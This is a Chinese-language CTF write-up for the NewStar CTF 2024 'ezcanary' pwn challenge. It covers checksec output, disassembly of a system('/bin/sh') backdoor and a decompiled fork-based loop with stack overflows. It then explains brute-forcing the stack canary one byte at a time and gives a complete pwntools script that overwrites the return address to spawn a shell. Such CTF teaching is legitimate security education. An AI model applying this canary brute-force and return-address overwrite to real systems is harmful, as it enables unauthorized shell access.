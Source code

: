 ```yaml
---
titleTemplate: ":title | WriteUp - NewStar CTF 2024"
---
```


# ezcanary

文件到手先 checksec 一下，看一下是 64 位程序，除了 PIE 其他保护全开

![checksec](/assets/images/wp/2024/week3/ezcanary_1.png)

给了后门地址，因为没有开PIE所以可以直接利用

```asm
.text:0000000000401236 ; __unwind {
.text:0000000000401236                 endbr64
.text:000000000040123A                 push    rbp
.text:000000000040123B                 mov     rbp, rsp
.text:000000000040123E                 sub     rsp, 10h
.text:0000000000401242                 mov     rax, fs:28h
.text:000000000040124B                 mov     [rbp+var_8], rax
.text:000000000040124F                 xor     eax, eax
.text:0000000000401251                 lea     rdi, command    ; "/bin/sh"
.text:0000000000401258                 call    _system
```

再看 `main` 函数

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char s[88]; // [rsp+0h] [rbp-60h] BYREF
  unsigned __int64 v5; // [rsp+58h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  init(argc, argv, envp);
  memset(s, 0, 0x50uLL);
  do
  {
    if ( !fork() )
    {
      puts(&byte_402031);
      puts(&byte_402050);
      puts(&byte_40208B);
      read(0, s, 0x100uLL);
      return 0;
    }
    wait(0LL);
    puts(&::s);
    read(0, s, 0x100uLL);
  }
  while ( strcmp(s, "cat flag\n") );
  puts("flag is one_by_one_bruteforce");
  read(0, s, 0x100uLL);
  return 0;
}
```

很明显的有三个 `read` 都可以栈溢出，程序是 do while 的循环，当第二次输入为 `cat flag\n` 时结束循环并读取第三次输入

但是由于程序开启了 Canary 保护，所以并不能直接 ret2backdoor，而需要先想办法绕过 Canary 才能成功修改返回地址

不管是 `fork()` 函数还是最后 `puts` 的 `one_by_one_bruteforce` 都在提示本题可用逐字节爆破的方式获得 Canary

:::tip

`fork()` 函数具有以下两个特点：

1. 由于子进程和父进程的栈结构是完全相同的，因此保存在子进程栈上的随机数与保存在父进程栈上的随机数完全相同。换句话说，所有子进程和父进程共享同一个 Canary
2. 子进程的崩溃不会导致父进程崩溃

这两个特点意味着当程序调用 `fork()` 函数创建了足够多的子进程时，我们可以不断访问子进程，直到找到一个不会使子进程崩溃的随机数，这个随机数也就是真正的 Canary

:::

64 位要爆破 7 个字节，运气不好的话要多等会

```python
#_*_ coding:utf-8 _*_
from pwn import *
elf = ELF("./ezcanary")
context(arch=elf.arch, os=elf.os)
context.log_level = 'debug'
p = process([elf.path])
p = remote('127.0.0.1',8071)
def aaa() :
  global can
  for i in range(256):
    payload1 = (0x60-8) * b'a' + can + p8(i)
    p.sendafter('你觉得呢？\n',payload1)
    info = p.recvuntil('\n')
    if b"*** stack smashing detected ***" in info :
        p.send('n\n')
        continue
    else :
        can += p8(i)
        break

def bbb():
  global can
  can = b'\x00'
  for i in range(7):
    aaa()
    if i != 6 :
      p.send('a\n')
    else :
      p.sendline('cat flag')


bbb()
canary = u64(can)
print(hex(canary))
getshell = 0x401251
payload2 = b"a" * (0x60-8) + p64(canary) + p64(0) + p64(getshell)
p.sendafter("bruteforce\n", payload2)
p.interactive()
```
